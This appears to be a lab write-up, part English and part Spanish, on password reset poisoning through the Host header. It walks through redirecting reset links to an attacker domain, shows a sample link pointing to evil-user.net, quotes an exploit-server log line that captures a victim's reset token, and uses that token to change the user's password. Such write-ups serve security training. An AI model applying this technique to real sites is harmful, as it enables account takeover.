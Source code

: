 ```yaml
---
layout: default
title: 1 - Basic password reset poisoning
---
```

## How to construct a password reset poisoning attack

If the URL that is sent to the user is dynamically generated based on controllable input, such as the Host header, it may be possible to construct a password reset poisoning attack as follows:

1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control. For this example, we'll use `evil-user.net`.
2. The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server:

`https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`
3. If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server.
4. The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account.


Cambiamos la cabecera host de la petición por nuestro dominio  del exploit server, cuando la víctima clique nos llega lo siguiente : 

`10.0.4.72       2024-11-21 18:23:38 +0000 "GET /forgot-password?temp-forgot-password-token=jgzq496oxk077jcaa624cr9gdbysxopn HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"`

Accedemos al dominio real /forgot-password?temp-forgot-password-token=jgzq496oxk077jcaa624cr9gdbysxopn y cambiamos la contraseña de carlos

